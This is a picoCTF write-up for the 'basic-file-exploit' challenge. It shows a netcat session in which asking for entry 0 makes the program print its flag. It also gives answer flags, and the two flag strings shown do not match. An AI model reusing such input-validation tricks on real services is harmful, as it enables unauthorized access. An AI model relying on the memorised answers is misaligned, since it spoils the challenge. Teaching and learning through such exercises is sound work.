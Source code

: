 # **Challenge:** basic-file-exploit 


### **Category:** [Binary Exploitation](../)
### **Point Value:** 100
### **Author:** Will Hong
<br>

## **Description:**
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with
```Shell
netcat: $ nc saturn.picoctf.net 55197
```
 The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/490/program-redacted.c).[^1][local](./program-redacted.c)


# **Write-Up:**
Lets start by downloading the source code using:  
```Shell
wget https://artifacts.picoctf.net/c/490/program-redacted.c
```

Starting with the main() function we're asked to make a choice:  
```c
  puts("Hi, welcome to my echo chamber!");
  puts("Type '1' to enter a phrase into our database");
  puts("Type '2' to echo a phrase in our database");
  puts("Type '3' to exit the program");
```

Then looking through the rest source we find this in dataread()
```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```
Which tells us that the [FLAG](./flag) resides at phrase 0 in the 'database.'  So connecing to the program using netcat, we select the first menu option and enter our data and its length:
```bash
└─$ nc saturn.picoctf.net 55197
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
a
a
Please enter the length of your data:
1
1
Your entry number is: 1
```
Now when prompted if we wish to do something else we select option 2 and for our data entry number we select 0, which should echo out the [FLAG](./flag):
```bash
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_25D6CDDB}
```
  
# **FLAG:** 
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_D870266B}

[^1]: Included links to the source code may be out of date as they were what I recorded during the competition, and may be different now.